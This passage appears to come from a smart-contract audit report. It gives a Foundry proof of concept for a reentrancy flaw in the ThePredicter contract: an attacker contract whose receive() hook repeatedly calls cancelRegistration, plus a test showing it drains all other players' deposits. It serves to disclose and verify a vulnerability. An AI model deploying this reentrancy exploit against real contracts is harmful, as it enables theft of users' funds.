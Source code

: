 ```solidity
    ThePredicter public thePredicter;

    receive() external payable {
        if(address(thePredicter).balance >= 0.04 ether) {
            thePredicter.cancelRegistration();
        }
    }

}
```

In the `test/ThePredicter.test.sol` import the `ReentrancyAttackOnCancelRegistration`:

```diff
    import {Test, console} from "forge-std/Test.sol";
    import {Strings} from "@openzeppelin/contracts/utils/Strings.sol";
    import {ThePredicter} from "../src/ThePredicter.sol";
    import {ScoreBoard} from "../src/ScoreBoard.sol";
+   import { ReentrancyAttackOnCancelRegistration } from "./ReentrancyAttackOnCancelRegistration.sol";
```

And add the test:

```solidity
function test_ReentracyAttackOnCancelRegistration() public {
        // setup stranger users
        address stranger1 = makeAddr("stranger1");
        address stranger2 = makeAddr("stranger2");
        address stranger3 = makeAddr("stranger3");
        vm.deal(stranger1, 1 ether);
        vm.deal(stranger2, 1 ether);
        vm.deal(stranger3, 1 ether);

        // register stranger users
        vm.startPrank(stranger1);
        thePredicter.register{value: 0.04 ether}();
        vm.startPrank(stranger2);
        thePredicter.register{value: 0.04 ether}();
        vm.startPrank(stranger3);
        thePredicter.register{value: 0.04 ether}();

        // check thePredicter balance
        assertEq(address(thePredicter).balance, 0.12 ether);

        // setup ReentracyAttackOnCancelRegistration
        ReentrancyAttackOnCancelRegistration reentrancyAttackOnCancelRegistration = new ReentrancyAttackOnCancelRegistration(address(thePredicter));
        address addressReentrancyAttackOnCancelRegistration = address(reentrancyAttackOnCancelRegistration);
        vm.startPrank(addressReentrancyAttackOnCancelRegistration);
        vm.deal(addressReentrancyAttackOnCancelRegistration, 1 ether);

        // reentracy attack on cancel registration
        thePredicter.register{value: 0.04 ether}();
        thePredicter.cancelRegistration();

        // check balances
        assertEq(address(thePredicter).balance, 0 ether);
        assertEq(addressReentrancyAttackOnCancelRegistration.balance, 1.12 ether);
    }
```
